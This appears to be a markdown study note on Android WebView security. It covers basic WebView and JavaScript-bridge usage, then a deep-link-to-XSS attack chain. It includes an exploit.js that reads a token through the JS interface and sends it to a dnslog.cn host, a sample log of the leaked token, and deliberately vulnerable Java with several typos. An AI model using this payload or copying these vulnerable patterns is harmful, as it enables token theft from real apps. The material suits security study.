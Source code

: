 # Webview
WebView objects allow you to display web content as part of your activity layout, but lack some of the features of fully-developed browsers. 

## Use Case
To load a web page in the WebView, use loadUrl():
```java
WebView myWebView = (WebView) findViewById(R.id.webview);
myWebView.loadUrl("http://www.example.com");
```

```java
WebView myWebView = new WebView(activityContext);
setContentView(myWebView);
myWebView.loadUrl("https://www.example.com");
```

## Javascript code
### Enable JavaScript
```java
WebSettings webSettings = myWebView.getSettings();
webSettings.setJavaScriptEnabled(true);
```

### Binding JavaScript 
Create interfaces between your JavaScript code and client-side Android code. To bind a new interface between your JavaScript and Android code, call _addJavascriptInterface()_, passing it a class instance to bind to your JavaScript and an interface name that your JavaScript can call to access the class.
```java
public class WebAppInterface {
    Context mContext;

    /** Instantiate the interface and set the context */
    WebAppInterface(Context c) {
        mContext = c;
    }

    /** Show a toast from the web page */
    @JavascriptInterface
    public void showToast(String toast) {
        Toast.makeText(mContext, toast, Toast.LENGTH_SHORT).show();
    }
}
```
Bind this class to the JavaScript that runs in your WebView with addJavascriptInterface() and name the interface Android
```java
WebView webView = (WebView) findViewById(R.id.webview);
webView.addJavascriptInterface(new WebAppInterface(this), "Android");
```
Then web application has access to the WebAppInterface class, you can write a HTML and Javascript code to use the interface:
```java
<input type="button" value="Say hello" onClick="showAndroidToast('Hello Android!')" />

<script type="text/javascript">
    function showAndroidToast(toast) {
        Android.showToast(toast);
    }
</script>
```


## Process
```mermaid
graph TD;
    Evil-html-->Call-by-DeepLink-Scheme;
    Call-by-DeepLink-Scheme-->Activity;
    Activity-->WebView;
    WebView-->Execute-JS;
    XSS-in-WhiteList-->Execute-JS;
    Execute-JS-->JsInterface;
    JsInterface-->window.getToken;
    JsInterface-->window.downloadFile;
    window.getToken-->Java-interface;
    window.downloadFile-->Java-interface;
```
## payload
- Evil.html
```html
<iframe src= "jayway://openapp/activity?param= {"activity": "com.jayway.JsBridge", "url": "http://whitelist.com/xss=exploit.js"} ">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```

## Code
- DeepLink Attack Input
```java
public static deeplink(){
 Intent intent = this.getIntent();
 Uri uri = intent.getData();
 String scheme = uri.getScheme();
 String host = uri.getHost();
 if (scheme = "jayway" && host = "openapp") 
    param = uri.getQueryParameter("param");
}
   WebView webView = new Webview();
   WebSettings webSettings = webView.getSettings();
   webSettings.setJavaScriptEnabled(true);
# case 1 : parse any url  
   webView.loadUrl(param);
# case 2 : load any activity by deeplink
   Intent intent2 = new Intent();
   intent2.setData(Uri.parse(param));  #User-controlled
   this.startActivity(intent2);
```

- Malicious Activity
```java
private boolean rce(){
 Intent intent = this.getgetIntent();
 String str = intent.getStringExtra("param2");
 this.a = Class.forName(str).newInstance;
}
```

- JsBridge
```java
1. Get sensitive info
@JavascriptInterface
public String getKey(){
 if (com.jayway.utils.isWhiteList(this.url)){
   String json = new JsonObject();
   String token = com.jayway.info.getInstance().getToken();
   json.put("token",token)
   return json.toString();  
  }
}
```




- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)

